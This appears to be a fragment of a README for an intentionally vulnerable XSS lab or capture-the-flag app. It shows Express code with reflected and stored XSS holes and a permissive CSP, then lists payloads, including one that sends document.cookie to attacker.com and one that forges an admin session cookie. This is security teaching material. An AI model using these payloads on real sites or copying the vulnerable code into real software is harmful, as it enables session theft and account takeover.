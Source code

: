 **Example Payload:**
```javascript
<img src=x onerror="document.getElementById('dom-flag').style.display='block'">
```

## **🔍 Vulnerability Analysis**

### **1. Reflected XSS Locations**
```javascript
// Search endpoint reflects user input directly
app.get('/api/search/results', (req, res) => {
    const query = req.query.q || '';
    // VULNERABLE: Direct injection into HTML
    const html = `<p>Results for: <strong>${query}</strong></p>`;
    res.send(html);
});
```

### **2. Stored XSS Vulnerabilities**
```javascript
// Comments stored without sanitization
const comment = new Comment({
    content: content, // VULNERABLE: No XSS protection
    author: req.user._id
});
```

### **3. Weak Content Security Policy**
```javascript
// CSP allows unsafe-inline and unsafe-eval
res.setHeader('Content-Security-Policy', 
    "script-src 'self' 'unsafe-inline' 'unsafe-eval' data: blob: https:;"
);
```

## **🛠️ Exploitation Techniques**

### **Basic XSS Testing:**
```javascript
// Simple alert-based payloads
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
<svg onload="alert('XSS')">

// DOM manipulation
<script>document.body.innerHTML='<h1>XSS</h1>'</script>
```

### **Cookie Theft:**
```javascript
// Steal session cookies
<script>
fetch('http://attacker.com/steal?c=' + document.cookie);
</script>

// Admin session simulation
<script>
document.cookie = 'admin_session=true; path=/';
location.reload();
</script>
```
